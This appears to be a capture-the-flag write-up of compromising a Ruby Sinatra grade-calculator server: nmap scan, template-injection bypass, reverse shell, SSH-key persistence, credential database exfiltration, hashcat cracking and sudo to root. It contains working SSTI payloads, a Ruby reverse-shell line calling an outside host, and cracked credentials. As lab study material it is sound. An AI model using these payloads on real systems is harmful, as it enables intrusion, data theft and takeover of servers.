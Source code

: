 ## Info Gathering (Round 1)
IP: 10.129.52.153
Website: http://10.129.52.153
## Scan & Eval (Round 1)

#### NMAP Initial
```
Nmap scan report for 10.129.52.153
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Info Gathering (Round 1)
#### NMAP Results
- Detected both port 22 and 80 for SSH and HTTP
- No other port of interest identified with the common port scan
- Running Ubuntu Linux and an NGINX webserver
#### http://10.129.52.153
- A site with the Title "Weighted Grade Calculator"
	- Contains a 'weighted-grade" form at http://10.129.52.153/weighted-grade
		- Form triggers a post request
		- Upon investigation the inputs may be to be utilized for a Server Side Template Attack
			- Attempting `<%= foobar %>` returns `Malicious input blocked` which may signify some kind of sanitization.
	- **Powered by WEBrick 1.7.0**
	- Attempting directory traversal resulted in a 404 message and the following.
```
## Sinatra doesn’t know this ditty.

![](http://127.0.0.1:3000/__sinatra__/404.png)

Try this:

get '/etc/passwd' do
  "Hello World"
end
```
- With the site utilizing WEBrick and Sinatra we can conclude it is running Ruby.
	- This is back up by the Server header `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`
		- There is a potential Header Injection vulnerability [Exploit DB](https://www.exploit-db.com/exploits/35352)
## Exploitation (Round 1)
#### Server Side Template Injection
- Attempts with the Category field result in `Malicious input blocked`
- Attempting to submit the form with arbitrary data in the *Grade* and *Weight* category result in Javascript validation.
	- Bypassing the Javascript validation and attempting the attack on the *Grade* and *Weight* field also results in `Malicious input blocked`
- The `Malicious input blocked` appears to be vulnerable to a `%0A` bypass.
Utilizing the following POST payload I received a valid response from the server.
```
category1=abc%0A<%25%3dsystem("whoami")%25>&grade1=100&weight1=20&category2=b&grade2=100&weight2=20&category3=c&grade3=100&weight3=20&category4=d&grade4=100&weight4=20&category5=e&grade5=100&weight5=20
```
The response below appears to responded `true` to the `system("whoami")` function.
```
Your total grade is 100%<p>abc
true: 20%</p><p>b: 20%</p><p>c: 20%</p><p>d: 20%</p><p>e: 20%</p>
```
Replacing `system("whoami")` with `<%= File.open('/etc/passwd').read %>` results in a successful read of `/etc/passwd`
```
Your total grade is 100%<p>abc
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
: 20%</p><p>b: 20%</p><p>c: 20%</p><p>d: 20%</p><p>e: 20%</p>
```
- Utilizing `spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.35",9999))` I was able to get a reverse shell.
	- Stabilizing the shell with `python -c 'import pty; pty.spawn("/bin/bash")'` reveals that we are the user Susan
	- Added public key to `/home/susan/.ssh/authorized_keys` to gain persistence and SSH login.

## Scan & Eval (Round 2)
#### Linpeas - Potential Attack Vectors
```
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

#### Manual Search
- There is `/home/susan/Migration` that contains a file `pupilpath_credentials.db`
	- `strings pupilpath_credentials.db` reveals the following users and password hashes
```
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```
- Exfil'd the `pupilpath_credentials.db` file and used `sqlite` to `SELECT * from users;`
```
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```
#### Hash Cracking
- Hashes appear to be SHA265
- Both *Wordlist* and *Bruteforce* attacks resulted in no immediate solution.
#### Manual Search (Round 2)
- After further review of `linpeas.sh` output there appears to be a mail directory
```
╔══════════╣ Searching installed mail applications
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄              
╔══════════╣ Mails (limit 50)
    39937      4 -rw-r-----   1 root     susan         625 May 14  2023 /var/mail/susan
    39937      4 -rw-r-----   1 root     susan         625 May 14  2023 /var/spool/mail/susan
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```
- Running `cat /var/mail/susan` results in the following output
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
#### Hash Cracking (Round 2)
- Utilizing the above email I re-crafted the `hashcat` command to the following
```
hashcat -a3 -m1400 ./hashes --username -o ./recovered susan_nasus_?d?d?d?d?d?d?d?d?d?d --increment
```
- Running the above command resulted in a **Cracked** password: `susan_nasus_413759210`

## Exploitation (Round 2)
#### Susan's Jupiter Grades Password
- Running `sudo -i` with Susan's Jupiter Grades password gains root shell

# Complete
